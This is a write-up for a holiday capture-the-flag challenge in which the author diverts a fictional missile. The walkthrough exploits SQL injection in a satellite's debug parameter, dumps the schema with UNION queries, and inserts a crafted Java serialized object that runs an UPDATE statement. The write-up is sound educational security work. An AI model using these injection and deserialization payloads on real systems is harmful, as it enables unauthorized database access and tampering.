

# Missile Diversion

**Difficulty**: :material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant:<br/>
**Direct link**: [client_container.zip](https://www.holidayhackchallenge.com/2023/client_container.zip) and [NanoSat Christmas Comms](https://nanosat.one/?&challenge=satmissile)

## Objective

!!! question "Request"
    Thwart Jack's evil plan by re-aiming his missile at the Sun.

## Hints

??? tip "Wombley Cube"
    oh drat, did I leave the admin tools open?<br/>
    For some reason, I can't move when you're nearby, but if I could, I would surely stop you!

??? tip "Copy-paste in VNC"
    I was running noVNC on my mac, and spent ages retyping out messages because copy-paste didn't seem to work. Use `ctrl-c` instead of `command-c`, and check out the clipboard contents displayed in the toolbar on the left.

## Solution

### Find a vulnerability

Following on from my "strategy" in the last challenge of randomly clicking things and seeing what showed up, I quickly discovered that the "Debug" parameter is returning a MariaDB version, so it's worth looking for SQL injection.

??? note "updateDefinitions"
    Initially, I tried adding ' into as many different places as possible and very quickly seemed to brick... something. It may have just been network issues on my end, or it may have been one of the updateDefinitions actions. Hopefully someone else had time to play with this more and see if there's anything to it. After collapsing the timeline and then travelling back to the future, I decided to be a bit more methodical since I'm too impatient to keep rebooting.

??? note "nmap"
    You can also connect your host machine to the satellite and run nmap:
    ```
    nmap -sV -Pn 10.1.1.1
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-03 22:15 NZDT
    Nmap scan report for 10.1.1.1
    Host is up (0.22s latency).
    Not shown: 984 closed tcp ports (conn-refused)
    PORT      STATE    SERVICE       VERSION
    1024/tcp  open     kdm?
    1112/tcp  filtered msql
    1501/tcp  filtered sas-3
    2038/tcp  filtered objectmanager
    2100/tcp  filtered amiganetfs
    2366/tcp  filtered qip-login
    2718/tcp  filtered pn-requester2
    2800/tcp  filtered acc-raid
    3306/tcp  open     mysql?
    3998/tcp  filtered dnx
    5800/tcp  filtered vnc-http
    7201/tcp  filtered dlip
    8652/tcp  filtered unknown
    10180/tcp filtered unknown
    19780/tcp filtered unknown
    49163/tcp filtered unknown
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port3306-TCP:V=7.93%I=7%D=1/3%Time=659525EE%P=x86_64-apple-darwin19.6.0
    SF:%r(NULL,6D,"i\0\0\0\n11\.2\.2-MariaDB-1:11\.2\.2\+maria~ubu2204\0l\x01\
    SF:0\0wwqPy43C\0\xfe\xf7-\x02\0\xff\x81\x15\0\0\0\0\0\0\x1d\0\0\x008-x:Stn
    SF:JhL\"d\0mysql_native_password\0")%r(GenericLines,A4,"i\0\0\0\n11\.2\.2-
    SF:MariaDB-1:11\.2\.2\+maria~ubu2204\0l\x01\0\0wwqPy43C\0\xfe\xf7-\x02\0\x
    SF:ff\x81\x15\0\0\0\0\0\0\x1d\0\0\x008-x:StnJhL\"d\0mysql_native_password\
    SF:x003\0\0\x01\xffj\x04#HY000Proxy\x20header\x20is\x20not\x20accepted\x20
    SF:from\x2010\.1\.1\.2")%r(LDAPBindReq,6D,"i\0\0\0\n11\.2\.2-MariaDB-1:11\
    SF:.2\.2\+maria~ubu2204\0\x8c\x01\0\0C94;gxD\+\0\xfe\xf7-\x02\0\xff\x81\x1
    SF:5\0\0\0\0\0\0\x1d\0\0\0ImlS<qGO6\]Qa\0mysql_native_password\0")%r(afp,6
    SF:D,"i\0\0\0\n11\.2\.2-MariaDB-1:11\.2\.2\+maria~ubu2204\0\xa0\x01\0\0OHZ
    SF:m4X\?r\0\xfe\xf7-\x02\0\xff\x81\x15\0\0\0\0\0\0\x1d\0\0\0D:5;hyJCRQ!O\0
    SF:mysql_native_password\0");

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 192.39 seconds
    ```

The only action available is called "Debug" so that feels like the best place to start if we want to approach this in a methodical way. Click the debug action, choose submit action and edit the one argument we can to include anything. It's a string type, so it shouldn't really matter what it's set to.
Now navigate to the parameters tab and see if it's had any impact when we "getValue" on the debug:


So now that we know it's actually being used, it's probably worth looking for various injections. Given that we already know a SQL database is being used, let's start with SQLi by submitting a single quotation:


Given that the debug parameter always returns the MariaDB version, it seems like it must be using the [VERSION()](https://mariadb.com/kb/en/version/) command, so our SQL injection point must be in the `SELECT` clause.

??? "Error message confusion"
    I got a little bit confused by the error message `Invalid syntax near '''` made me think there must be something else running, like `SELECT VERSION(), '<user content>'`. Huge thanks to @devastati0n on the Discord for helping me through that bit!

It seems to be running `SELECT VERSION() <user content>;`. So we can input `, USER()` and `, SCHEMA()` commands to see that the database is the `missile_targetting` system and the user is `targeter`



??? Tip "Embedded Queries and Union operators"
    If you embed your query inside the query, eg `, (SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 84)`, you're going to have a Bad Time™. So don't do that; just add the columns you want. If you want to "SELECT *" from a table, figure out how many columns it has and add `, 1` * that number - 1 and then `UNION` your select, eg `1, 1 UNION SELECT * FROM satellite_query` since the satellite_query table has three columns as shown below.

### Exploit the vulnerability

We can use the `information_schema.tables` and `information_schema.columns` [tables](https://mariadb.com/kb/en/information-schema-columns-table/) to dump the table and column names, eg:
`UNION SELECT table_name FROM information_schema.tables`
`column_name FROM information_schema.columns WHERE table_name = <name>`

| Table                |       |                 |          |            |
| :------------------- | :---- | :-------------- | :------- |:---------- |
| satellite_query      | jid   | object          | results  |            |
| messaging            | id    | msg_type        | msg_data |            |
| pointing_mode_to_str | id    | numerical_mode  | str_mode | str_desc   |
| pointing_mode        | id    | numerical_mode  |          |            |
| target_coordinates   | id    | lat             | long     |            |

We can dump the pointing_mode_to_str table using `, numerical_mode, str_mode, str_desc FROM pointing_mode_to_str`


And then we can see that the pointing_mode just has the missile pointed at Earth. Unfortunately, trying to update that value: `; UPDATE pointing_mode SET numerical_mode = 1` just gives us an error because the user isn't able to modify that database. Likewise, `INSERT` and `DELETE` are not allowed, nor is modifying the target_coordinates table.

That seems to suggest our SQL vulnerability alone won't help us achieve the goal of diverting the missile, so the next step must be to:

### Find a second vulnerability

The `satellite_query` table only contained one row, but boy was that an interesting row:


??? "What about the messaging table?"
    The messaging table looked interesting, but less interesting than the satellite_query table.
    

We also can't update that table, but we can insert into it using `; INSERT INTO satellite_query VALUES (1, 1, 1)`. Like in the previous challenge, we can use WireShark to extract the full Java class [in a pcap file](../img/misc/java.pcapng).

We can use [SQL's HEX()](https://www.w3resource.com/mysql/string-functions/mysql-hex-function.php) function to extract the `object` column:
`, HEX(object) FROM satellite_query`: `ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661`

We can then try inserting the object back into the table to see if `results` is updated:
`; INSERT INTO satellite_query (object) VALUES (UNHEX("aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b787000007400292f6f70742f536174656c6c697465517565727946696c65466f6c6465725574696c6974792e6a617661"))`

??? tip "Invalid Stream Header"
    The hex *appears* to need to be lower-cased before reinsertion, or it returns an "Invalid Stream Header". I did not have enough time to explore this fully to understand why and be confident lowercase really is necessary.

When we re-fetch the value, there are no errors, so now we can fetch the new value: `results FROM satellite_query WHERE jid = 3` (the ids normally increment, although you can fetch them separately to be sure of your jid). `results` has been populated with the original Java class, so something is clearly monitoring and using values in that table at least.

### Deserialise the data with Java

??? tip "YSoSerial"
    I thought about using YSoSerial here since it's generally great for Java deserialization. WireGuard is already set up so making a reverse shell should be relatively easy... but YSoSerial was raising errors on my machine and some lovely people on Discord assured me it wasn't necessary. If I had more time, I would've loved to look into this more - hopefully one of the other writeups already has!

I don't think I've written Java since my university days almost a decade ago, so trying to write Java from scratch to deserialise the hex seemed, let's say "unappealing". I probably could've found boiler plate code pretty easily, but part of the write-up challenge was to use AI so I figured I'd give it the hex and see what it did:


It looked reasonable, and the follow up question of asking what the output would be gave a Java class called `SatelliteQueryFileFolderUtility` (although not matching the one we'd actually seen), so that felt reasonable.

We should start with that code, make some tweaks to add the `SatelliteQueryFileFolderUtility` code we found and then check it compiles and reserializes plausibly.

??? tip "The Changes I made"
    The code AI gave me contained the example deserialization class `DeserializeExample` and a second `YourSerializeableClass`. Surprisingly, it also checked that the deserialized object was an instance of that class, so I needed to:
    
    1. remove the type casting and checking code,
    2. replace the `YourSerializableClass` with the `SatelliteQueryFileFolderUtility` we found
    3. save the file as `DeserializeExample.java`
    4. compile and run with `javac DeserializeExample.java && java DeserializeExample`

    The full Java code is included below.

The AI's code should compile reasonably easily but when we run it, we will probably see an error similar to:

```java
java.io.InvalidClassException: SatelliteQueryFileFolderUtility; local class incompatible: stream classdesc serialVersionUID = 1356980473442833099, local class serialVersionUID = -6026304544470006199
	at java.base/java.io.ObjectStreamClass.initNonProxy(ObjectStreamClass.java:601)
	at java.base/java.io.ObjectInputStream.readNonProxyDesc(ObjectInputStream.java:2062)
	at java.base/java.io.ObjectInputStream.readClassDesc(ObjectInputStream.java:1909)
	at java.base/java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2235)
	at java.base/java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
	at java.base/java.io.ObjectInputStream.readObject(ObjectInputStream.java:514)
	at java.base/java.io.ObjectInputStream.readObject(ObjectInputStream.java:472)
	at DeserializeExample.main(DeserializeExample.java:21)
```

The following [StackOverflow Q&A](https://stackoverflow.com/questions/10378855/java-io-invalidclassexception-local-class-incompatible) explains the problem pretty well and fortunately it's an easy fix:
```diff
 class SatelliteQueryFileFolderUtility implements Serializable {
+    private static final long serialVersionUID = 1356980473442833099L;
```

??? tip "serialVersionUID value"
    The version UID may be different each time the host starts, so we might need to reextract the HEX each time and use whatever value is in our error message. I think the Holiday Hack team might've realised this would be confusing if your network connection died mid-challenge and hard-coded it though.

Now the recompiled Java should run correctly and produce a promising looking output:
```bash
$ javac DeserializeExample.java && java DeserializeExample      
SatelliteQueryFileFolderUtility@4517d9a3
```

Just to be sure, we should add some serialization code and ensure that the hex output is the same as the input:


### Create our Exploit

Once we're sure that our code works, let's figure out how to create the exploit. We know we want to update the `pointing_mode` table so that `numerical_mode` is 1. We could try to use a [deserialization gadget](https://snyk.io/blog/serialization-and-deserialization-in-java/) to either create a reverse shell to connect to, or to run Java code that creates a connection to the database and then executes the update command.

??? tip "The admin tools hint"
    I got a little bit confused here because of Wombley's hint. I figured we needed someway onto the machine to access the admin tools Wombley referred to, and therefore updating the row would need to wait. Huge thanks to @Voldetort for explaining that the hint just referred to the debug ability.

The code would need to look something like:
```java
Connection connection = buildConnection(); // somehow?
PreparedStatement pstmt = connection.prepareStatement("UPDATE pointing_mode SET numerical_mode = 1");
pstmt.executeUpdate();
```

But the `SatelliteQueryFileFolderUtility` already contains code like this, so it'd be easier just to construct it to run that code:

```java
SatelliteQueryFileFolderUtility exploit = new SatelliteQueryFileFolderUtility("UPDATE pointing_mode SET numerical_mode = 1", true, true);
```

### Serialise the Exploit and upload it

Now that we have the exploit, we can serialise it rather than our deserialized object, and then send the exploit to the Satellite:

`; INSERT INTO satellite_query (object) VALUES (UNHEX("aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174002b55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031"))`

### Check the pointing_mode

Nothing seems to happen, but if we fetch the pointing_mode, we can see that it is now set to point at the sun rather than the Earth. Let's go back into the game to see if anything has changed.

## Response
!!! quote "Wombley Cube"
    A... missile... aimed for Santa's sleigh? I had no idea...<br/>
    I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!
    Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.<br/>
    I'll help you bring Jack to justice...<br/>
    But my mission to ensure Santa never again compromises the holidays is still in progress.<br/>
    It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.<br/>
    Use the door to the right to return to the resort lobby and see what happened!<br/>
    Don't worry, I'll meet you there... trust me.<br/>

<video controls>
    <source src="../../img/misc/missile_fired.mp4" type="video/mp4">
</video>

## Java code

The Java code I used for this objective is [saved here](../img/misc/DeserializeExample.java)